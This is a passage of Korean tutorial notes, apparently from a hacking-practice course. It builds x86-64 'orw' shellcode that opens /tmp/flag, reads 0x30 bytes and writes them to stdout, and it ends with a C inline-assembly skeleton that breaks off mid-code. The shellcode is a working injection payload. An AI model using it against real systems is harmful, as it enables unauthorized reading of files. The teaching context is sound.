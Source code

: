 → `syscall`반환 값은 `rax`에 저장됨!

**2.read(fd, buf, 0x30)**

- `rdi` → `rax`에 저장된 반환 값을 `rdi`에 대입함
- `rsi` → 파일에서 읽은 데이터를 저장할 주소 (`rsp` - `0x30`)
- `rdx` → `0x30`

```nasm
mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)
```

- `rax` → `0x0` (`sysxall` 중 `read`)
- `rdi` → `rax` 반환 값
- `rsi` → `rsp` - `0x30`
- `rdx` → `0x30`

**3. write(1, buf, 0x30)**

- `stdout`을 통해 출력할 것이므로 `rdi` → `0x1`
- `rsi` 와 `rdx`는 유지

```nasm
mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```

### **orw 셸코드 컴파일 및 실행**

- 기계어로 치환하면 CPU가 이해할 수는 있으나 리눅스에서는 실행이 불가능하므로
- gcc 컴파일러를 통해 스켈레톤 코드를 C언어로 작성하고, 셸코드를 탑재하는 방법을 쓸거임

```c
// File name: orw.c
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"

    "push 0x67\n"
    "mov rax, 0x616c662f706d742f \n"
    "push rax\n"
    "mov rdi, rsp    # rdi = '/tmp/flag'\n"
    "xor rsi, rsi    # rsi = 0 ; RD_ONLY\n"
    "xor rdx, rdx    # rdx = 0\n"
    "mov rax, 2      # rax = 2 ; syscall_open\n"
    "syscall         # open('/tmp/flag', RD_ONLY, NULL)\n"
    "\n"
    "mov rdi, rax      # rdi = fd\n"
    "mov rsi, rsp\n"
    "sub rsi, 0x30     # rsi = rsp-0x30 ; buf\n"
    "mov rdx, 0x30     # rdx = 0x30     ; len\n"
    "mov rax, 0x0      # rax = 0        ; syscall_read\n"
    "syscall           # read(fd, buf, 0x30)\n"
    "\n"
    "mov rdi, 1        # rdi = 1 ; fd = stdout\n"
    "mov rax, 0x1      # rax = 1 ; syscall_write\n"
    "syscall           # write(fd, buf, 0x30)\n"
    "\n"
    "xor rdi, rdi      # rdi = 0\n"
    "mov rax, 0x3c	   # rax = sys_exit\n"
```